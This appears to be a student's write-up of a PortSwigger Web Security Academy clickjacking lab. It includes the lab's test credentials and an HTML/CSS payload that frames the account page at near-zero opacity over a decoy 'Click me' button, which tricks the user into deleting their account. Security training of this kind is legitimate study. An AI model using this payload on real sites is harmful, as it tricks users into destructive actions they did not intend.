 # Basic clickjacking with CSRF token protection

```jsx
This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: wiener:peter
```

```jsx
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>

```

![image.png](Basic%20clickjacking%20with%20CSRF%20token%20protection%20bfdf09e29f5e49bcba131b9923dbbf47/image.png)

![image.png](Basic%20clickjacking%20with%20CSRF%20token%20protection%20bfdf09e29f5e49bcba131b9923dbbf47/image%201.png)

![image.png](Basic%20clickjacking%20with%20CSRF%20token%20protection%20bfdf09e29f5e49bcba131b9923dbbf47/image%202.png)

```jsx
<style>
    iframe {
        position:relative;
        width:700px;
        height: 700px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:497px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a2600e2034886538053e9cb00a00064.web-security-academy.net/my-account"></iframe>
```

![image.png](Basic%20clickjacking%20with%20CSRF%20token%20protection%20bfdf09e29f5e49bcba131b9923dbbf47/image%203.png)

Es importante el opacity, en mi caso he probado con diferentes bvalores y el que me aceptó es el siguiente opacity: 0.00001